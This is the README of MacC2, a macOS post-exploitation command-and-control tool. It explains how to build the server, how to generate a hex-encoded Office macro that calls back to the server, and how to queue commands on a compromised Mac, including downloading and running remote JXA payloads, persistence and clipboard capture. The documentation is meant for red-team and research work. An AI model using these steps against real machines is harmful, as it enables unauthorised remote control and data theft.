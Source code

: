 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. The client is written in python2, which though deprecated is still being shipped with base Big Sur installs. It is possible down the road that Apple will remove python2 (or python altogether) from base macOS installs but as of Nov 2020 this is not the case. Apple plans to eventually remove scripting runtimes from base macOS installs, but it is unknown when that will happen since Big Sur includes python. 

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. `chmod +x install_docker_linux.sh`
2. `sudo ./install_docker_linux.sh`

***Next:***
1. `chmod +x setup.sh`
2. `sudo ./setup.sh` **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server\
![Image](img/pic30.png)
4. when prompted, enter the port that the MacC2 server will listen on\
![Image](img/pic31.png)
5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.\
![Image](img/pic32.png)
6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container. Once finished the MacC2 server will listen on the specified port:\
![Image](img/pic33.png)
7. You can run *docker ps* and validate that the MacC2 server is running
8. The setup script also sets up a shared mount between the container and the host. On the host, you can browse to /var/lib/docker/volumes/macc2/_data in order to access MacC2_client.py as well as macro.txt which you will need to port over to the target host.


You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

`pip install aiohttp` **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

`python3 -m pip install --upgrade --force pip`

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: `openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key`

- 2: `openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem`

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

`python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]`

-Example:

![Image](img/pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](img/pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
`python MacC2_client.py`

![Image](img/pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](img/pic6.png)

----------

## Using MacC2 ##

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](img/pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

`>>> runjxa <url_to_JXA_.js_payload>`

**Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing**

----------

## Additional Info ##

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

## Macro Limitations ##

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- persist: MacC2 can drop files to disk from a sandboxed macro payload. However, upon reboot the persistence will not execute due to the quarantine attribue on the dropped files.

- addresses

- prompt

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.
